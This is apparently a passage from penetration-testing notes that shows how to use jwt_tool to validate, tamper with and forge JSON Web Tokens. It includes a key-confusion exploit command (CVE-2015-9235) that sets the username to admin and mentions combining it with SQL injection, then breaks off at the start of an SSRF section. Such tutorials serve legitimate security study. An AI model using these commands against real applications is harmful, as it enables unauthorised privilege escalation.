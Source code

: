 Explore the tool with the help menu

```
python3 jwt_tool.py --help
```

Pay attention to \[-X] and \[-T] options. \[-X] is used to determine the type of the exploit. Use the help menu to select the type of exploit you want. \[-T] is for tampering with the token. \[-V] for validating a token. Use this option along with providing the public key with the option \[-pk]. Below are exampe usages

**Validating a token**

```
python3 jwt_tool.py [JWT-Token] -V -pk [public-key]
```

**sending the token to the web application in a http request**

```
python3 jwt_tool.py -t [URL] -rc "cookie" -rh "header" -cv "Test" -M er
```

\[-rc] make sure to provide the cookie and that it contains the token \[-rh] make sure to input the request header

**Exploiting key confucion vulnerability**

More about this vulnerability in the below link

```
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9235
```

The below command uses the exploit option \[-X k] to indicate key confusion exploit and the username field as the field to manipulate \[-pc username] and to test the desired value with \[-pv admin]

```
python3 jwt_tool.py -t [URL] -rc "cookie" -X k -I -pc username -pv admin
```

Or without sending the request.

```
python3 jwt_tool.py cat($token-file.txt)  -X k -I -pc username -pv admin
```

The output is a new token which you can send to the server in a new request using BurpSuite.

**Note that sometimes JWT attacks can be combined with SQL injection attacks. This can be accomplished by changing the value provided to \[-pv] option with your SQL Injection paylad**

#### SSRF

SSRF tricks a server into visiting a URL based on user-supplied input. SSRF attacks are possible when a web application accepts URLs from a user as input and then retrieves information from those URLs. If the server has access to non-public URLs, an SSRF attack can unintentionally disclose that information to an attacker.

**Example vulnerable code**

In Php
